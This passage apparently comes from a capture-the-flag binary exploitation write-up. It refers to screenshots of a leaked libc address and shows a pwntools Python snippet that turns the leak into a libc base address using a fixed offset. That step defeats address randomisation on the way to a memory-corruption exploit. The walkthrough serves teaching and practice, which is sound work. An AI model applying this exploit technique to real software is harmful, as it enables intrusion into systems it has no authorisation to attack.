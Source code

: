 ![check-saved-rip-of-run.png](images/check-saved-rip-of-run.png)

We got libc address leaked:

![libc-leak.png](images/libc-leak.png)

Let's get that address and calculate the base address of libc with the following code (you can get the offset by subtracting the leak address with the base one):

```python
libc_leak = u64(p.recv(6) + b'\0\0')
libc.address = libc_leak - 0x620d0
log.info("Libc leak: " + hex(libc_leak))
log.info("Libc base: " + hex(libc.address))
```
